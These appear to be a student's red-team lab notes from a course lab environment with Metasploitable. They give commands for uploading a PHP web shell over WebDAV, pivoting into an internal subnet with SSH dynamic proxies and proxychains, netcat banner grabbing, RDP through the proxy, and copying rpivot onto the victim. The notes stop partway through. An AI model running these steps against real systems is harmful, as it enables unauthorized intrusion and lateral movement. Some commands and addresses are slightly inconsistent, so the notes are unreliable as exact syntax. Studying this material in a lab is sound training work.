 # Red Teaming

Attacker IP - 192.168.50.2(External)

Web Server - 192.168.50.3(Ext), 10.10.10.5(Int) Runs on two interfaces, 192.168.50.1 being external and 10.10.10.5 being internal.

Domain Controller(DC) 10.10.10.2

Application Server 10.10.10.4

```bash
Curl can be used to connect to a web server
example:
curl --upload-file http://192.168.50.3/dav/shell.php - Uploads a shell.php file on the
server.

cadaver http://10.10.10.1/dav/ - This command is used to enter the /dav directory

put /usr/share/shell.php - PUT method is used to upload the shell.php file.
```

 **Network pivoting**

```bash
By default 192.168.50.3 is reachable from our machine, but we need to reach another 
internal network running on the victim's system. Let's assume the internal network subnet
is 192.168.98.0/24 and one of our target runs 192.168.98.30.

GOAL: Reach 192.168.98.0/24 network from our attacker machine with pivoting.

We have different ways of pivoting, first of which is using Proxychains with an active
ssh(with -D <proxy port> flag ) connection to the target.

NOTE: USE ANY OF THE PIVOTING TECHNIQUES BELOW IF ONE FAILS TO WORK

**METHOD 1**
First: edit proxychains config file and set  the following:
"socks4 8090, socks5 8090"
comment dns_leak.
Enable Dynamic Chain(and Disable the rest)

ssh -D 8090 msfadmin@192.168.50.3 (Opens up ssh connection via proxy port in proxychains)

second: proxychains nc -nv 192.168.98.30 80 (Runs proxychains with netcat to perform banner
grabbingon http port 80. This can also be used to test if a port is reachable(e.g 80)

proxychains rdesktop 192.168.98.30 - Using proxychains to maintain access to a windows system 
through Remote desktop protocol(RDP).

#Username and password found in metasploitable.(Optional)

**METHOD 2:** Using Rpivot.
We still need to leave our settings in /proxychains.conf as "socks4 8090, socks5 8090" 
as we would be making use of socks.

Download rpivot tool from the course materials.
change directory to rpivot( cd /rpivot)

Rpivot will run on the Attacker's machine, being the server, and the Victim also run 
rpivot as the client to connect back to the Server(Attacker's machine).

firstly, Copy rpivot tool to victim's machine, you can use any of your preferred methods, but
I'm cool with using scp -r rpivot/ privilege@192.168.50.3:/home/privilege/rpivot, since 
we have the password for ssh.

```